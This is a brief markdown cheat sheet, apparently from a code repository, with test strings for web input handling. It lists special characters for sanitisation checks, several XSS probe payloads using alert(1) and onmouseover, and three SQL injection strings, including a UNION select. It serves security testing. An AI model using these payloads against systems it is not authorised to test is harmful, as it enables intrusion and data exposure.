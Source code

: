 # Cheat sheet

## Input sanitization

```
'<>:;"
```

## XSS

Try these out to check how well input is being sanitized.

```
"><h1>test</h1>
'+alert(1)+'
"onmouseover="alert(1)
http://"onmouseover="alert(1)
```

## SQL injection

```sql
' or 1='1 --This returns all rows
' and 0='1 --This returns no rows


' UNION select 1,2,3; --'; -- Can be attached to the end of an existing select
```
